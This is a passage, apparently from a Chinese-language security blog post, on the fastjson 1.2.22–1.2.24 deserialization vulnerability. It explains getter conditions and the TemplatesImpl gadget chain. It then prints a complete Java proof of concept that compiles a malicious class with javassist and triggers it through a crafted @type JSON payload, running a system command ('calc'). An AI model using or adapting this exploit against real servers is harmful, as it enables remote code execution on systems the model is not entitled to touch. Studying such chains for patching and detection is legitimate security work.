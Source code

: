 getter的判断也差不多，直接给出要求：

1. 方法名长度不小于4
2. 不能是静态方法
3. 方法名要get开头同时第四个字符串要大写
4. 方法返回的类型必须继承自Collection Map AtomicBoolean AtomicInteger AtomicLong
5. 传入的参数个数需要为0



## fastJson TemplatesImpl链

版本：fastjson 1.2.22-1.2.24

TemplatesImpl链构造的恶意类为Object，但是在fastJson序列化中，只有两种方式能接收Object类（并且要设置Feature.SupportNonPublicField，恢复private属性）,但是在1.2.22才出现该属性，1.2.24后又加了很多黑名单和白名单

我们构造的PoC中有private的成员变量`_bytecodes`和`_name`

```java
1. parseObject(input,Object.class,Feature.SupportNonPublicField)//不设置Object会返回JSONObject
2. parse(input,Feature.SupportNonPublicField)
```

TemplatesImpl链有两种，一种是newTransformer()作为入口；一种是getOutputProperties()作为入口，这里用到的是第二种

```css
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()-> TransletClassLoader#defineClass()
```



POC如下：

```java
package org.example;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.*;

import java.util.Base64;

public class fastjsonpoc1 {
    public static String generateEvil() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clas = pool.makeClass("Evil");
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        String cmd = "Runtime.getRuntime().exec(\"calc\");";
        clas.makeClassInitializer().insertBefore(cmd);
        clas.setSuperclass(pool.getCtClass(AbstractTranslet.class.getName()));

        clas.writeFile("./");

        byte[] bytes = clas.toBytecode();
        String EvilCode = Base64.getEncoder().encodeToString(bytes);
        System.out.println(EvilCode);
        return EvilCode;
    }
    public static void main(String[] args) throws Exception {
        final String GADGAT_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String evil = fastjsonpoc1.generateEvil();
        String PoC = "{\"@type\":\"" + GADGAT_CLASS + "\",\"_bytecodes\":[\"" + evil + "\"],'_name':'a.b','_tfactory':{},\"_outputProperties\":{ }," + "\"allowedProtocols\":\"all\"}\n";
        JSON.parseObject(PoC,Object.class, Feature.SupportNonPublicField);
    }
}
```
